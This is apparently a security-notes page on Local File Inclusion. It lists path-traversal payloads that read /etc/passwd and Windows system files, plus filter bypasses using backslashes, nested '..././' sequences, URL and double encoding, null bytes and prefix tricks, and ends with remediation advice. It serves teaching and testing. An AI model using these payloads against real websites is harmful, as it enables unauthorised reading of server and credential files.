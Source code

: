# Local File Inclusion

Also known as LFI, when an attacker can get a website to include a file that was not intended to be an option for the application.

Following, we find some ways to leverage this vulnerability:

* Check if parameters in the URL receive the name of a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
#It's searching for a file
http://$url/$query?$param=hola.php
#We can try to access the system files
http://$url/$query?$param=/etc/passwd
```
{% endcode %}

***

* When it doesn't work directly, we can try to get to the root folder. This method is also known as _Path Traversal_.

{% tabs %}
{% tab title="On Linux server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="On Windows server" %}
{% code overflow="wrap" lineNumbers="true" %}
```bash
#We use ../ to get to the root directory
http://$url/$query?$param=../../../../../../WINDOWS/system32/drivers/etc/hosts
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% hint style="info" %}
It is useful to put as many `../` as possible to get to the root folder
{% endhint %}

***

* Sometimes, we will need to check the page code to see the input conditions.

{% tabs %}
{% tab title="Case 1" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" lineNumbers="true" %}
```php
...
$file = str_replace( array( "../", "..\\" ), "", $file );
...
```
{% endcode %}

We can use the `\` to bypass this verification

{% code lineNumbers="true" %}
```bash
http://$url/$query?$param=..\/..\/..\/..\/etc/passwd
```
{% endcode %}

Also if we use `..././` the code will do the replacement and leave us anyway with `../`, and we will also bypass this verification

{% code lineNumbers="true" %}
```bash
http://$url/$query?$param=..././..././..././..././etc/passwd
http://$url/$query?$param=....//....//....//etc/passwd
```
{% endcode %}
{% endtab %}

{% tab title="Case 2" %}
The code is searching for a file whose name starts with _file_

{% code title="Example source code" overflow="wrap" lineNumbers="true" %}
```php
...
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
...
```
{% endcode %}

We can set our input to start with a specific name or route to folder, to bypass this verification

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">http://$url/$query?$param=file/../../../../etc/passwd
<strong>http://$url/$query?$param=/var/www/images/../../../../etc/passwd
</strong></code></pre>
{% endtab %}

{% tab title="Case 3" %}
When stripped any directory traversal sequences, we can URL encode, or even double URL encode, the `../` characters

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=../../../etc/passwd #This don't work
http://$url/$query?$param=..%2f..%2f..%2fetc%2fpasswd #But this could
http://$url/$query?$param=..%252f..%252f..%252fetc%252fpasswd #Or even this
```
{% endcode %}
{% endtab %}

{% tab title="Case 4" %}
If needed to end with an expected file extension, we can use a null byte (`%00`) to bypass it

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$param=../../../etc/passwd%00.png   #Example
```
{% endcode %}
{% endtab %}
{% endtabs %}

## <mark style="color:blue;">Remediation Actions</mark>

* Avoid passing user-supplied input to filesystem APIs
  * Validate the user input before processing it, for example, compare the user input with a whitelist of permitted values
* Sanitize input by allowing only expected characters like alphanumeric only, no dots, slashes, or protocols
* Ensure proper file path resolution and canonicalize the path
